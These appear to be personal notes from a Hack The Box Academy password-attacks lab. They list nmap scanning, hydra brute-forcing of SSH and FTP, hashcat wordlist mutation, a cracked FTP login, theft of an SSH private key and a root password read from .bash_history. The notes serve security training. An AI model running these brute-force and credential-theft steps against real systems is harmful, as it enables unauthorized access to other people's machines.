## LAB

nmap -sV -oA nmap $TARGET --stats-every=5s

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

hydra -l root -P password.list ssh://$TARGET

1 of 1 target completed, 0 valid password found

crackmapexec ssh $TARGET -u root
SSH         10.129.129.119  22     10.129.129.119   [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.4


hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
hydra -l sam -P mut_password.list ssh://$TARGET
hydra -l sam -P mut_password.list ftp://$TARGET -t 64

sed -ri '/^.{,9}$/d' mut_password.list
head -17000 mut_password.list > 7000mut_password.list
hydra -l root -P 7000mut_password.list ftp://$TARGET -t 64

1 of 1 target completed, 0 valid password found

sed -ri '/^.{,9}$/d' mut_password.list
hydra -l root -P mut_password.list ftp://$TARGET -t 64

hydra -L username.list -P password.list ssh://$TARGET

sed -i -E 's/\b[^mM][^[:space:]]*\b//g' username.list

membership
mike
myaccount

wget https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

hydra -l mike -P password.list ftp://$TARGET

[21][ftp] host: 10.129.129.119   login: mike   password: 7777777

ftp $TARGET
mike

get id_rsa

chmod 600 id_rsa

ssh -i id_rsa mike@$TARGET
Enter passphrase for key 'id_rsa': 
7777777

vim .bash_history

analysis.py -u root -p dgb6fzm0ynk@AME9pqu

